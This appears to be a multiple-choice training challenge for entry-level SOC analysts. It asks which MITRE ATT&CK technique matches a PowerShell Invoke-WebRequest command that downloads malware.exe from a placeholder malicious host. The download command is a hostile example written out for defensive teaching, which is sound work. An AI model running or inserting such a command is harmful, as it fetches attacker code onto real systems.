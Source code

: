 # **Challenge 1.8.5: MITRE ATT&CK Framework (Basics)**

---

### **description:**

🔍 As a Level 1 SOC Analyst, you have been given the following PowerShell command that was executed on a compromised system:

---
```plaintext
Invoke-WebRequest -Uri 'http://malicious.example.com/malware.exe' -OutFile 'C:\Users\Public\Downloads\malware.exe'
```
🤔 Question:

Identify the MITRE ATT&CK technique most likely associated with this command.

🔘 ```A. T1105 - Ingress Tool Transfer```

🔘 ```B. T1059 - Command and Scripting Interpreter```

🔘 ```C. T1071 - Application Layer Protocol```

🔘 ```D. T1036 - Masquerading```

💡 Hint: Analyze the purpose of the PowerShell command and its impact on the compromised system to identify the MITRE ATT&CK technique.

🚀 Ready to answer? Go on and make your choice!
